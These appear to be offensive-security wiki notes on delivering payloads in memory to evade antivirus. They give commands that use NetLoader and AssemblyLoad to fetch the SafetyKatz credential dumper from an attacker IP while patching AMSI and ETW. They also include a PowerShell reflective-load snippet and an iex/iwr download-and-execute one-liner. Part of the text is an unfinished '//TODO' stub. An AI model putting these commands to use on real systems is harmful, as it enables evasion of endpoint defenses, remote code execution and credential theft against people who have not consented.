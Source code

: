 # Payload Delivery

## Theory

Antivirus software detects and flags malicious content stored on the disk. However, if you execute payloads directly from memory instead of saving them locally, you can bypass detection and avoid potential issues. In essence, by treating the disk as if it were lava, you can circumvent the security measures in place.

{% hint style="danger" %}
THE DISK IS LAVA
{% endhint %}

## Abuse

### .Net payload

Can be done in two ways:&#x20;

#### With Net Loader&#x20;

[Loader.exe](https://github.com/Flangvik/NetLoader) can be used to load binary from filepath or URL and patch AMSI & ETW while executing.

```
.\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

But this loader will still be flagged by the AV so is needed to use it in combo with AssemblyLoad.exe, that can be used to load the NetLoader in memory from a URL which then loads a binary from a filepath or URL.

```
.\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

#### Don't know but it works

//TODO

Tested with WinPeas&#x20;

{% code overflow="wrap" %}
```powershell
$data=(New-Object System.Net.WebClient).DownloadData('<URL>');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[<Program>.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
{% endcode %}

### Powershell Script

Necessary to bypass amsi end logging first

```
iex (iwr <$Url> -UseBasicParsing)
```
